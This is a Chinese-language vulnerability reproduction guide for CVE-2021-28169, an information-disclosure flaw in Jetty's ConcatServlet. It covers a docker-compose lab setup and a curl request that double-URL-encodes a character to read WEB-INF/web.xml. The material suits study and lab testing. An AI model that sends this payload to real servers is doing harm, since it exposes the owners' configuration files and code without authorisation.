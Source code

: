 # Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞 CVE-2021-28169

## 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的`ConcatServlet`、`WelcomeFilter`类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-gwcr-j4wh-j3cq

## 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.40服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到一个example页面。该页面使用到了`ConcatServlet`来优化静态文件的加载：

```
<link rel="stylesheet" href="/static?/css/base.css&/css/app.css">
```

![image-20220224164457554](images/202202241652563.png)

## 漏洞复现

正常通过`/static?/WEB-INF/web.xml`无法访问到敏感文件web.xml：

![image-20220224165314273](images/202202241653506.png)

对字母`W`进行双URL编码，即可绕过限制访问web.xml：

```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

![image-20220224165357342](images/202202241653568.png)
